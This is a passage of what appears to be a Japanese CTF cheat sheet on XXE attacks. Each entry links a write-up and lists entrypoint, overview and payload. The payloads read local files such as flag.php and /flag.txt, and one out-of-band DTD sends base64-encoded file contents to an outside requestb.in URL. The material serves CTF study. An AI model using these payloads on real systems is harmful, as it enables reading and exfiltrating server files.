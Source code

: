 ```txt
]>
<foo>
  &bar;
</foo>


// xxe.dtd (攻撃者サーバーに用意する)
<!ENTITY % filebase64 SYSTEM "php://filter/convert.base64-encode/resource=flag.php">
<!ENTITY % injme '<!ENTITY startme SYSTEM "https://requestb.in/xxxxxxx?xxe=%filebase64;">'>%injme;
```
## XXE (normal XXE / identify webroot or /proc/self/cwd)
https://www.aquablog.site/entry/2019/03/25/093034   

- **entrypoint**   
IndexページのJavascriptのソースコード内にJavascriptでXML形式のデータをXMLHttpRequestで送信して、返ってきたデータを`.innerHTML`に入れて表示する。ここからXXEを疑う。   
- **概要**   
応答が返ってくるので普通のXXE。flagのフルパスがわからないので`file:///etc/nginx/sites-enabled/default`でNginxのWebルートを特定するか、`file:///proc/self/cwd/`,`php://filter`とかでflagファイルをゲットできるらしい。   
- **Payload**   
```txt
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/epreuve/flag" >]><feedback><author>&xxe;</author><email>a</email><content>undefined</content></feedback>
```
## XXE (normal XXE / upload XMLfile)
https://st98.github.io/diary/posts/2017-04-03-nuit-du-hack-ctf-quals-2017.html   
- **entrypoint**   
CSVをHTMLに変換できるWebサービスが稼働しており、CSVファイルをアップロードするとHTMLに変換されるので、XMLデータを送信してみる。すると、`Could not convert the CSV to XML!`というエラーが表示されるのでXMLが解析されており(?)XXE脆弱と疑う。   
- **概要**   
応答が返ってくるので普通のXXEでよい。   
- **Payload**   
```txt
// 以下のファイルをアップロードする。(fullpahをなぜ知ってるのかは謎)
<!DOCTYPE hoge [ <!ENTITY xxe SYSTEM "/home/flag/flag"> ]>
id,name,email
a,b,&xxe;
```
## XXE (normal XXE / request XMLfile's URL)
https://jaiguptanick.github.io/Blog/blog/SharkyCTF_Writeup_web/   
- **entrypoint**   
`Show stored data`というページを見るとどうやらURLに`?xml=`があるっぽくて、`?xml=aaa`とかにするとページにエラーが表示される。　`file_get_contents(aaa)`,`DOMDocument::loadXML()`,`simplexml_import_dom()`とかの関数がエラー吐いてるのが見えるのでXXEとわかる。   
- **概要**   
`Show stored data`というページ、ということは応答が返ってくるということなので普通のXXE。   
- **Payload**   
```txt
// これを攻撃者サーバーに待機させて、 ?xml=http://attack.com/xxe.txtとかをリクエストする
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```
## XXE (SVG XXE / identify fullpath as /proc/self/cwd/flag.txt)
https://www.rootnetsec.com/bsidessf-svgmagick/   
- **entrypoint**   
`When I render SVGs to PNGs, it's like magic!`というヒントからSVGのXXEだと疑う。   